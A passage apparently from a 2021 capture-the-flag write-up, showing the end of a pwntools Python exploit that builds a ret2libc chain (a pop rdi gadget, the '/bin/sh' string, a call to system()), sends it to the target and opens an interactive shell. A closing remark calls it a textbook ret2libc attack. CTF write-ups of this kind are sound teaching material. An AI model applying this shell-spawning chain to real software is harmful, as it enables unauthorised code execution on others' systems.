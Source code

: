 ```python
    exploit += p64(libc.address + POP_RDI_RET)             # Gadget: pop rdi; ret;
    exploit += p64(next(libc.search(b"/bin/sh")))          # Pass /bin/sh.
    exploit += p64(libc.symbols["system"])                 # Call system().

    # Send the exploit.
    log.info("Delivering exploit.")
    p.recvuntil("safely?")
    p.sendline(exploit)

    # Interact with the shell.
    log.info("Spawning shell.")
    p.recvuntil("luck!")
    p.interactive()

if __name__ == "__main__":
    main()
```

Launch the exploit and sure enough, we have a shell:

![](./images/2021-redpwn/img04.png)

It's a textbook ret2libc attack.
